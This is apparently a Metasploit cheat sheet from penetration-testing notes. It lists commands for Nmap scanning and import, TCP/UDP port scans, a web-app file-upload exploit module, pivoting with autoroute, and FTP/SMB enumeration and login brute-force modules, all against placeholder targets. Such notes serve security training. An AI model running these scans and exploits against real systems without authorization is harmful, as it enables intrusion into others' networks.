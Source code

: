 

```
workspace -a <hostname_enum>
# NMAP Export in .XML
nmap -Pn -sV -O <TARGET_IP> -oX <XML_FILE_NAME>

# msfconsole
db_import <XML_FILE_NAME>

hosts
services
vulns
loot
creds
notes

# Nmap inside MSF
db_nmap -Pn -sV -O <TARGET_IP>
```

```
# Port Scan example
workspace -a Port_scan
search portscan
use auxiliary/scanner/portscan/tcp
show options
set RHOSTS <TARGET_IP>
set PORTS 1-1000
run

# Exploitation
search xoda
use exploit/unix/webapp/xoda_file_upload
set RHOSTS <TARGET_IP>
set TARGETURI /
run

# Pivoting to TARGET2 through TARGET1
run autoroute -s <TARGET1_SUBNET_NETWORK>
background
use auxiliary/scanner/portscan/tcp
set RHOSTS <TARGET2_IP>
run
```

```
# UDP Scan
search udp_sweep
use auxiliary/scanner/discovery/udp_sweep
set RHOSTS <TARGET_IP>
run
```

```
# Service Enumeration

# FTP
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/ftp_login
use auxiliary/scanner/ftp/anonymous

# SMB
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_login
```